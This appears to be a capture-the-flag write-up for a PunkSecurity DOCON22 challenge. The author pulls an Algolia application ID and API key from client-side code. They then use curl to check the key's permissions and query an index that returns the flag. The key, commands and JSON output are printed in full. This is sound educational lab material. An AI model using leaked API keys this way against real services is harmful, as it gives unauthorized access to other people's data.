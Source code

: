 # Challenge description

Happy hunting!

https://punk-security.github.io/DOCON22_CTF2/

Author: PunkSecurity
-----------------------------------------------------------



The most interesting line in the code is 

```
searchClient: algoliasearch('SBD4QQONZU', '7086ec0b05107bb2dcc86f177e83c287'),
``` 

which turned out to be the APP_ID and API_KEY for Algolia, from the name of the challenge we can tell we got a "leaked" API_KEY that we can use to find interesting things

Reading throught the docs we find some curl commands we can try, so first off :

``` 
curl "https://SBD4QQONZU-dsn.algolia.net/1/keys/7086ec0b05107bb2dcc86f177e83c287?x-algolia-application-id=SBD4QQONZU&x-algolia-api-key=7086ec0b05107bb2dcc86f177e83c287"
```

Output :

```json
{
    "value": "7086ec0b05107bb2dcc86f177e83c287",
    "createdAt": 1651305758,
    "acl": ["search", "listIndexes"],
    "validity": 0,
    "indexes": ["punk_PUBLIC_INDEX", "punk_DOCON22"],
    "description": "DOCON22_CTF"
}
``` 

Algolia works with ACLs and Indexes and we can see we have some indexes and an ACL which can "listIndexes" and do a "search".

Using this curl command we can use the ListIndexes ACL

```
curl -X GET "https://SBD4QQONZU-dsn.algolia.net/1/indexes/punk_DOCON22?x-algolia-application-id=SBD4QQONZU&x-algolia-api-key=7086ec0b05107bb2dcc86f177e83c287"
```
Output

```json
{
    "hits": [{
        "flag": "DOCTF{pr0t3ct_th0s3_k3ys}",
        "objectID": "247439083e601_dashboard_generated_id",
        "_highlightResult": {
            "flag": {
                "value": "DOCTF{pr0t3ct_th0s3_k3ys}",
                "matchLevel": "none",
                "matchedWords": []
            }
        }
    }],
    "nbHits": 1,
    "page": 0,
    "nbPages": 1,
    "hitsPerPage": 20,
    "exhaustiveNbHits": true,
    "exhaustiveTypo": true,
    "query": "",
    "params": "x-algolia-application-id=SBD4QQONZU&x-algolia-api-key=7086ec0b05107bb2dcc86f177e83c287",
    "renderingContent": {},
    "processingTimeMS": 1
}
```

And there's our flag


``` Flag : DOCTF{pr0t3ct_th0s3_k3ys} ```

```
